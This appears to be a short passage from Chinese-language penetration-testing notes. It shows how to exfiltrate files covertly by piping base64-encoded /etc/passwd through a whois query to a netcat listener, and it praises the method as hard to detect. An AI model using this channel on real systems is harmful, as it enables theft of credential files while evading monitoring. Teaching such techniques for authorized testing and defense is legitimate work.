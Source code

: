 ### 8.4 内网渗透中的文件传输

**利用whois传输文件：**

传输机：

    root@john:~# whois -h 127.0.0.1 -p 4444 `cat /etc/passwd | base64`
    
        

接受机：

    root@john:/tmp# nc -l -v -p 4444 | sed "s/ //g" | base64 -d
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007213532595.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201007213541521.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

优点：适用于隐蔽传输。最小化被发现。-
缺点：适用于传输小文件。

* * *